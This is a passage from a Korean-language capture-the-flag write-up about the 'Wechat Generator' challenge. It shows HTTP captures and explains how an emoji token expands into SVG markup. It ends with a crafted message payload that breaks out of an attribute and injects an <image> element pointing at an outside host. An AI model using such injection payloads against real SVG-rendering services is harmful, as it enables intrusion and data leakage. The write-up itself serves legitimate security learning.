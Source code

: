 `data`의 내용을 보면 `image/svg+xml`을 확인 할 수 있고 Base64로 인코딩된 이미지 파일을 디코딩을 하면  위와 같이 svg로 생성된 이미지인 것을 확인할 수 있습니다.

Wechat Generator는 이모티콘(이모지)도 지원을 합니다. 이모티콘을 사용했을때 패킷을 보면 아래와 같습니다.

```
POST http://pwnable.org:5000/preview HTTP/1.1
Host: pwnable.org:5000
Connection: keep-alive
Content-Length: 133
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://pwnable.org:5000
Referer: http://pwnable.org:5000/
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7

data=[{"type":0,"message":"Love you!"},{"type":1,"message":"Me too!!![smile]!!!"}]
```

```
HTTP/1.1 200 OK
Server: gunicorn/19.10.0
Date: Tue, 30 Jun 2020 06:59:56 GMT
Connection: close
Content-Type: application/json
Content-Length: 95676

{"previewid":"412cf8f6-e141-41e9-bc95-dec8a01bc55d","data":"data:image/svg+xml;base64,(Base64 Encoded SVG data)"}
```

Requests의 `data`의 이모지는 `[smile]` text 들어가며 Response의 `data`를 디코딩 하여 살펴보면 `<image>`로 치환되어 들어가는 것을 확인할 수 있습니다.

```xml
<g transform="translate(273 572)">
    <text font-family="SimHei,SimHei" font-size="72">Me too!!!</text><image x="360" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/smile.png" /><text x="460" font-family="SimHei,SimHei" font-size="72">!!!</text>
</g>
```

```
[smile] -> </text><image x="360" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/smile.png" /><text x="460" font-family="SimHei,SimHei" font-size="72">
```

따라서 아래와 같은 요청으로 이미지를 임의로 삽입할 수 있습니다.

```
[{"type":0,"message":"[smile.png\"/><image xmlns:xlink=\"http://www.w3.org/1999/xlink\" xlink:href=\"http://u1804.jeong.su:8888/\"/><test x=\"]"}]
```
